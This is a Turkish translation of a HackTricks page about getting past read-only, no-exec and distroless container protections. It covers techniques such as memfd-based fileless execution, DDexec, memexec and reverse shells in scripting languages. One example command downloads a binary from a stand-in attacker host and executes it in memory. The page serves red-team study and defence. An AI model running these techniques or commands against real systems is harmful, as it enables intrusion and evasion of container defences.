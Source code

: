 # FS korumalarını aşma: yalnızca okunur / çalıştırma yok / Distroless

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha derinlemesine bulabilirsiniz:

* [**DEF CON 31 - Linux Bellek Manipülasyonunu Gizlilik ve Kaçış için Keşfetmek**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ile Gizli Sızmalar & Bellek İçi dlopen() - HackTricks Takvimi 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## yalnızca okunur / çalıştırma yok senaryosu

Linux makinelerinin **yalnızca okunur (ro) dosya sistemi koruması** ile monte edilmesi giderek daha yaygın hale geliyor, özellikle konteynerlerde. Bunun nedeni, ro dosya sistemi ile bir konteyner çalıştırmanın **`readOnlyRootFilesystem: true`** ayarını `securitycontext` içinde ayarlamak kadar kolay olmasıdır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi ro olarak monte edilse bile, **`/dev/shm`** hala yazılabilir olacak, bu nedenle diske hiçbir şey yazamayacağımız yalan. Ancak, bu klasör **çalıştırma yok koruması** ile monte edilecektir, bu nedenle burada bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım perspektifinden, bu, sistemde zaten olmayan ikili dosyaları **indirmek ve çalıştırmak** için **zorlaştırıyor** (örneğin arka kapılar veya `kubectl` gibi sayıcılar).
{% endhint %}

## En Kolay Aşma: Scriptler

İkili dosyalardan bahsettiğimi unutmayın, eğer yorumlayıcı makine içinde mevcutsa, bir **shell script** veya **python** **script** gibi **herhangi bir scripti** çalıştırabilirsiniz.

Ancak, bu yalnızca ikili arka kapınızı veya çalıştırmanız gereken diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Aşmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu **bellekten çalıştırarak** yapmak en iyi yoldur, çünkü **korumalar burada geçerli değildir**.

### FD + exec syscall aşması

Makine içinde bazı güçlü script motorlarına sahipseniz, örneğin **Python**, **Perl** veya **Ruby**, bellekte çalıştırmak için ikili dosyayı indirebilir, bunu bir bellek dosya tanımlayıcısında (`create_memfd` syscall) saklayabilir, bu korumalardan etkilenmeyecek ve ardından **`exec` syscall** çağrısı yaparak **çalıştırılacak dosya olarak fd'yi belirtebilirsiniz**.

Bunun için [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kolayca kullanabilirsiniz. Bir ikili dosya geçirebilir ve belirtilen dilde, **ikili dosya sıkıştırılmış ve b64 kodlanmış** olarak, **decode ve decompress** talimatları ile birlikte bir **fd** oluşturacak şekilde bir script üretecektir.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer script dillerinde çalışmaz çünkü bunların scriptten ham syscall'leri çağırmak için herhangi bir **varsayılan yolu** yoktur, bu nedenle ikili dosyayı saklamak için **bellek fd** oluşturmak için `create_memfd` çağrısı yapmak mümkün değildir.

Ayrıca, `/dev/shm` içinde bir dosya ile **normal bir fd** oluşturmak işe yaramaz, çünkü **çalıştırma yok koruması** uygulanacağı için bunu çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) tekniği, kendi sürecinizin belleğini **`/proc/self/mem`** üzerinden yazma ile **değiştirmenizi** sağlar.

Bu nedenle, sürecin yürüttüğü **assembly kodunu kontrol ederek**, bir **shellcode** yazabilir ve süreci **herhangi bir keyfi kodu çalıştıracak şekilde "mutasyona uğratabilirsiniz"**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode** veya **herhangi bir ikili dosyayı** **bellekten** yükleyip **çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec'in doğal bir sonraki adımıdır. **Farklı bir ikili dosya çalıştırmak istediğinizde** DDexec'i yeniden başlatmanıza gerek yoktur, sadece memexec shellcode'u DDexec tekniği aracılığıyla çalıştırabilir ve ardından **yeni ikili dosyaları yüklemek ve çalıştırmak için bu demon ile iletişim kurabilirsiniz**.

**Memexec'i bir PHP ters shell'den ikili dosyaları çalıştırmak için nasıl kullanacağınızla ilgili bir örneği** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulabilirsiniz.

### Memdlopen

DDexec ile benzer bir amaca sahip olan [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, ikili dosyaları **hafızaya yüklemenin daha kolay bir yolunu** sağlar ve daha sonra bunları çalıştırmanıza olanak tanır. Hatta bağımlılıkları olan ikili dosyaları yüklemeye bile izin verebilir.

## Distroless Bypass

### Distroless nedir

Distroless konteynerler, belirli bir uygulama veya hizmeti çalıştırmak için gerekli olan **en az düzeyde bileşenleri** içerir, örneğin kütüphaneler ve çalışma zamanı bağımlılıkları, ancak paket yöneticisi, shell veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, **gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini azaltmak** ve istismar edilebilecek zafiyet sayısını en aza indirmektir.

### Ters Shell

Bir distroless konteynerde **normal bir shell almak için `sh` veya `bash`** bile bulamayabilirsiniz. Ayrıca `ls`, `whoami`, `id` gibi ikili dosyaları da bulamayacaksınız... genellikle bir sistemde çalıştırdığınız her şey.

{% hint style="warning" %}
Bu nedenle, **ters shell** almanız veya sistemi **listelemeniz** mümkün **olmayacak**.
{% endhint %}

Ancak, eğer ele geçirilmiş konteyner örneğin bir flask web çalıştırıyorsa, o zaman python yüklüdür ve dolayısıyla bir **Python ters shell** alabilirsiniz. Eğer node çalıştırıyorsa, bir Node rev shell alabilirsiniz ve çoğu **betik dili** için aynı durum geçerlidir.

{% hint style="success" %}
Betik dilini kullanarak, dilin yeteneklerini kullanarak **sistemi listeleyebilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters shell'inizi kullanarak **dosya sistemine ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde bu korumalar genellikle mevcut olacaktır, ancak **önceki bellek yürütme tekniklerini kullanarak bunları aşabilirsiniz**.
{% endhint %}

**Bazı RCE zafiyetlerini istismar ederek betik dillerinden **ters shell'ler** almak ve hafızadan ikili dosyaları çalıştırmak için **örnekleri** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulabilirsiniz.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hack kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
